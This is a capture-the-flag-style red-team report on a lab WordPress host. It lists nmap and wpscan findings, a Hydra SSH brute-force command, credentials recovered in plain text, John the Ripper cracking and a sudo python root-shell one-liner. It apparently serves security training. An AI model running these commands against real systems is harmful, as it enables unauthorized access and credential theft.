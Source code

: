 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sV 192.168.1.110
```

![../Images/Offensive_Nmap_Target1.png](nmapscan_Target1_img1)

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22 - SSH
  - Port 80 - HTTP
  - Port 111 - rpcbind
  - Port 139 - netbios-ssn Samba smbd 3.X - 4.X (workgrou: WORKGROUP)
  - Port 445 - netbios-ssn Samba smbd 3.X - 4.X (workgrou: WORKGROUP)

The following vulnerabilities were identified on each target:
- Target 1
  - SSH exposed to bruce force Attempts without multifactor authentication
  - HTTP port 80 allows for web traffic to pass through, and can expose files if not properly managed
  - NeBIOS Port 139 - If this system is going to be exposed to the internet it is advised to block this port from being accessed.
  - NetBIOS SMB port 445 - used in wannacry and notPetya ransomware attacks.  It is advised not to expose this to the internet like you would with a wordpress server.

wpscan -o ~/Desktop/wpscan_output --url http://1292.168.1.110/wordpress
![/Images/Flag1_WPScan_1_Target1.png](wpscan_Target1_img1)
![/Images/Flag1_WPScan_2_Target1.png](wpscan_Target1_img2)

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `michael`: _Password: 'michael'_
    - **Exploit Used**
      - _Hydra: hydra -l michael -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.110:22 -t 4_
      - _Alternative: Guessing_
      - _Alternative: Credential Stuffing_
![/Images/hydra_michael_BruteForce.png](michael_hydra_img1)
![/Images/Flag2.png](michael_img2)
  - `root`: _`mySQL` Password: R@v3nSecurity_
    - **Exploit Used**
      - _Used brute force credentials to gain ssh access_
      - _Discovered Credentials in plain text in config file_
      - _mysql -u root -p wordpress_
![/Images/wordpress_Config.png](MySQL_config_img1)
![/Images/MySQL_Access.png](MySQL_Access_img1)
  - `steven`: `Password:`_"pink84"_ `Hash:`_"See Image Below"_
    - **Exploit Used**
      - _mysql -u root -p wordpress_
      - _John the Ripper with RockYou Dictionary attack_
      - `sudo python -c 'import os; os.system("/bin/sh")'`_to gain root privilege_
![/Images/root_level_access.png](root_img1)
![/Images/Flag3_MySql.png](MySQL_Target1_img1)


- Flags

Flag 1:
![/Images/Flag1.png](Flag_img1)


Flag 2:
![/Images/Flag2.png](flag2_img1)

Flag 3:
![/Images/Flag3.png](Flag_3_MySQL_img1)

Flag 4:
![/Images/Flag4_root.png](Flag_4_root_img2)
